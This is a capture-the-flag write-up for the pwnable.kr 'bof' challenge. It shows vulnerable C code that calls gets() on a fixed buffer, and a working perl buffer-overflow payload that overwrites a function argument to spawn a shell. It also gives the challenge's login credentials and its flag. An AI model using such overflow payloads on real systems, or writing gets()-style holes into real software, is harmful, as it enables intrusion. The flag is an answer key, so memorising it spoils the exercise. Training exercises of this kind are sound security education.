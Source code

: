## Pwnable.kr
Target: bof
SSH Connect: ssh bof@pwnable.kr -p2222 (pw:guest)

### Code Overview
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

### Solution
Initially, I keep testing my ideas directly onto the elf(bof) on the machine without reading the readme.md provided. I `checksec bof` and saw the protection of stack canary is on. My initial idea was:
1. scp -p2222 bof@pwnable.kr:/home/bof/bof
2. gdb -q ./bof
3. Since the PIE protection mode is enabled, run the elf for the firstime to get the address filled
4. But what fustrating me was no matter how I tried (filled payload with 52 junk and 0xcafebabe or 52 junk with canary rewrite and then 0xcafebabe), It just won't get accepted as an answer
5. Then I open readme.md , It ran: nc 0 9000
6. Then I nc 0 9000 -> (perl -e 'print "A"x52 . "\xbe\xba\xfe\xca\n"'; cat | ./bof)
7. It works!


### Answer
Daddy_I_just_pwned_a_buff3r!

### Result
![alt text](image.png)